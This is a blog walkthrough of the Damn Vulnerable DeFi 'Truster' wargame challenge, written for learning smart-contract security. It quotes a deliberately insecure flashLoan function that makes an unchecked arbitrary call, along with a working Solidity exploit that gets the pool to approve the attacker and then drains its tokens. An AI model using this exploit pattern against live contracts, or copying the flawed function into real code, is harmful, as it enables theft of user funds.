 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #3 Solution — Truster'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2020-04-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #3 — Truster

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> Currently the pool has 1 million DVT tokens in balance. And you have nothing.
>
> But don’t worry, you might be able to take them all from the pool. In a single transaction.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/truster)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/truster/truster.challenge.js)

## The attacker end goal

Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.

Given the context of the challenge, we will leverage the **free flash loan mechanism** of the landing pool to steal all the funds.

## Study the contracts

### `TrusterLenderPool`

The contract has only one method inside called `flashLoan`.

```solidity
// Don't use this code in production
// This is an insecure code part of https://www.damnvulnerabledefi.xyz/ challenges

function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

The function takes in input four parameters:

- `borrowAmount`: the number of tokens to send to the `borrower` address
- `borrower`: the address that is borrowing the tokens and that will receive the amount of token borrowed
- `target`: the address of the contract on which the `OpenZeppelin Address.functionCall` will be executed on
- `data`: the byte payload that will be used to `Address.functionCall`

What else can we see looking at the code?

- The function has `nonReentrant` function modifier, so we can assume that is not prone to reentrancy attacks
- it’s **not checking** the `borrower` or `target` address
- It’s **not checking** that the `borrowAmount` is 0
- Is checking that the balance of the pool has at least `borrowAmount` tokens
- Transfer the `borrowAmount` to the `borrower` address
- Execute a `functionCall` with `data` as parameter on the target address
- And at the end, verify that the final balance of the contract is greater than the starting balance

So, we cannot

- steal funds using reentrancy
- steal funds directly because it will check at the end if we have sent back all the funds

But we have three hints:

- it’s not checking that the `borrowAmount` is zero
- it’s not checking the `borrower` or `target` address
- and it’s executing an external call to the `target` address passing an arbitrary `data` payload to it

Let’s look at the source code of [Address.functionCall](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol). Following the code we see that the final code that will be executed is

```solidity
require(address(this).balance >= value, "Address: insufficient balance for call");
require(isContract(target), "Address: call to non-contract");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResult(success, returndata, errorMessage);
```

Given this information, we know that the TrusterLenderPool contract will execute `target.call{value: value}(data);` using its own context.

This means that that specific arbitrary function executed on `target` is like if it will be **executed directly by** the **TrusterLenderPool** contract!

## Solution code

What function should we make the `TrusterLenderPool` execute that will allow us to steal all the funds?

We need to execute the [DamnVulnerableToken.approve(address spender, uint256 amount)](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol#L126-L140) with

- spender = attacker address
- amount = the balance of the lending pool

This will allow the attacker to transfer all the DVT token owned by the LendingPool to the attacker itself!

With all the information that we have, we can:

- Call the `flashLoan` function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.
- Call the `flashLoan` with target as the DVT token address to execute the call method on the Token contract itself
- Construct the `data` payload to make the `TrusterLenderPool` to call the DVT approve method `bytes memory data = abi.encodeWithSignature(“approve(address,uint256)”, attacker, poolBalance);`

```solidity
function exploit() internal override {
    /** CODE YOUR EXPLOIT HERE */
    uint256 poolBalance = token.balanceOf(address(pool));
    // Act as the attacker
    vm.prank(attacker);
    // make the pool approve the attacker to manage the whole pool balance while taking a free loan
    bytes memory attackCallData = abi.encodeWithSignature("approve(address,uint256)", attacker, poolBalance);
    pool.flashLoan(0, attacker, address(token), attackCallData);
    // now steal all the funds
    vm.prank(attacker);
    token.transferFrom(address(pool), attacker, poolBalance);
}
```

You can find the full solution on GitHub, looking at [Truster.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/truster/Truster.t.sol)

If you want to try yourself locally, just execute `forge test — match-contract TrusterTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
